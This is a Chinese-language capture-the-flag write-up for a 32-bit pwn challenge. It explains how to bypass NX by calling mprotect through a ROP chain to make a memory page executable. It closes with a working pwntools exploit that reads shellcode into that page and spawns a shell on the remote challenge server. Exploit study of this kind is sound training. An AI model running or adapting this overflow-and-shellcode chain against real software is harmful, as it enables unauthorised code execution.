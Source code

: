 ```python
unsigned int __cdecl mprotect(int a1, int a2, int a3)
{
  unsigned int result; // eax

  result = dl_sysinfo(a2, a3);
  if ( result >= 0xFFFFF001 )
    return _syscall_error();
  return result;
}
```

在0x0806ec80发现了一个mprotect函数，可以在上面的笔记查看他的作用，之后vmmap，查看内存权限：

```python
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
 0x8048000  0x80ea000 r-xp    a2000      0 /home/tangjunyi/pwn/xie
 0x80ea000  0x80ec000 rw-p     2000  a1000 /home/tangjunyi/pwn/xie#从这里开始修改为可执行权限,然后在这里写shellcode
 0x80ec000  0x810f000 rw-p    23000      0 [heap]
0xf7ff8000 0xf7ffc000 r--p     4000      0 [vvar]
0xf7ffc000 0xf7ffe000 r-xp     2000      0 [vdso]
0xfffdd000 0xffffe000 rw-p    21000      0 [stack]
```

虽然这道题开启了栈不可执行，但我们可以修改栈上的权限为可执行。可以使用mprotect进行修改（mprotect函数作用看上面的笔记）

找到开始修改的地址，即上图中的0x80ea000作为开始修改的地址

==需要指出的是，指定的内存区间必须包含整个内存页（4K）。区间开始的地址start必须是一个内存页的起始地址，并且区间长度len必须是页大小的整数倍。==即不能是0x80ebf80

长度可以设置为0x1000，反正大一点也没有坏处

执行权限就设置为7，也就是最高权限可读写可执行

传参的话就用==0x0804f460 : pop ebx ; pop esi ; pop ebp ; ret==这一串即可，不用纠结用啥寄存器，能pop三个就行

当我们修改完权限后，就可以在指定内存读入shellcode了

开始构造payload：

```python
from pwn import *
#p = process('./xie')
#gdb.attach(p) #open gdb
context(os="linux",arch="i386",log_level='debug')
elf = ELF('./xie')
p = remote('node4.buuoj.cn',28097)
pop_ebx_esi_ebp_ret = 0x0804f460 #往函数里弹参数

mp1 = 0x80ea000 #这里是我们刚刚找到准备修改权限的起始地址，同时作为mprotect的参数和read的参数
mp2 = 0x1000 #修改的长度为0x1000
mp3 = 0x7 #修改权限等级为7
mprotect_addr = elf.symbols['mprotect'] #找到mprotect函数的地址
read_addr = elf.symbols['read'] #找到read函数的地址

payload = b'a'*0x38 + p32(mprotect_addr) + p32(pop_ebx_esi_ebp_ret) + p32(mp1) + p32(mp2) + p32(mp3)
#溢出后返回到mprotect函数，然后往寄存器中弹参数（实则是往栈中弹参数，然后再通过栈传参，不用管是什么寄存器），分别是mprotect的第一个参数：修改权限的起始地址0x80ea000；第二个参数：修改的长度0x1000；第三个参数：修改的权限等级7
payload += p32(read_addr) + p32(pop_ebx_esi_ebp_ret) + p32(0) + p32(mp1) + p32(0x100)#ret到read函数地址，也向read函数传参；第一个参数：fd=0标准输入；第二个参数：写入数据的地址0x80ea000（因为刚刚已经对这块地址赋予了可读可写可执行权限，；第三个参数：写入的数据最大长度0x100
payload += p32(mp1)#读入shellcode后，跳到已修改地址的起始位置开始执行shellcode

p.sendline(payload)#发送第一段payload，进行修改权限操作和调用read函数操作，为第二段payload提供了写入shellcode的地方
payload1 = asm(shellcraft.sh())#第二段payload生成一串shellcode
p.send(payload1)#写入shellcode
p.interactive()
```